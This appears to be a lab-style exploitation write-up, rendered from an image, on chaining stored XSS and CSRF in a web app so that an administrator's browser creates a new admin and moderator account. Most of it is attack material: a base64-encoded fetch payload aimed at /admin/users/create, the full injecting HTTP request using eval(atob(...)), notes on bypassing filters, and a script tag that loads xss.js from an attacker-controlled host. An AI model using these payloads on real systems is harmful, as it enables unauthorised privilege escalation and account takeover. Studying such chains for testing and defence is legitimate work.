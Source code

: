 https://owasp.org/www-community/attacks/csrf

https://medium.com/@alireubenstone/the-session-ride-of-your-life-1494324db06d


```
CSRF, also known as, “Session Riding”, “…is an attack vector that tricks a web browser into executing an unwanted action in an application to which a user is logged in”.


```

Exploitation -- CSRF to create a new user  
## Create new user  
### Info  
We are dealing with the length limitation in a DB and additional filter on ' , " , \n , and ;  
Payload will be kept to a minimum, and encoded.  
```
Note: #<script src=http://<ATTACKER_IP>/xss.js></script> would allow us to bypass these limitations completely and load  
any arbitrary JS.  
We are using a small unhosted payload isntead to not deal with CORS (if present) and demonstrate additional filter bypass.  
```
The user will be created with a randomized password. Password reset mechanism will have to be subverted.  
### Payload  
```javascript
a = 'fetch("/admin/users/create",{method:"post",headers:{"Content-Type":"application/x-www-form-  
urlencoded"},body:"name=offsec&email=hi@fluff.me&=isAdmin=true&isMod=true"});'  
btoa(a)  

'ZmV0Y2goIi9hZG1pbi91c2Vycy9jcmVhdGUiLHttZXRob2Q6InBvc3QiLGhlYWRlcnM6eyJDb250ZW50LVR5cGUiOiJhcHBsaWNhdGlvbi94LXd3dy1mb3JtLXVybGVuY29kZWQifSxib2R5OiJuYW1lPW9mZnNlYyZlbWFpbD1oaUBmbHVmZi5tZSY9aXNBZG1pbj10cnVlJmlzTW9kPXRydWUifSk7'  
```
Shell (bash)  
```
POST /question HTTP/1.1  
Host: answers  
Content-Length: 290  
Content-Type: application/x-www-form-urlencoded  
title=test&description=#<script>eval(atob(`ZmV0Y2goIi9hZG1pbi91c2Vycy9jcmVhdGUiLHttZXRob2Q6InBvc3QiLGhlYWRlcnM6eyJDb250ZW50LVR5cGUiOiJhcHBsaWNhdGlvbi94LXd3dy1mb3JtLXVybGVuY29kZWQifSxib2R5OiJuYW1lPW9mZnNlYyZlbWFpbD1oaUBmbHVmZi5tZSY9aXNBZG1pbj10cnVlJmlzTW9kPXRydWUifSk7`))</script>&category=3
```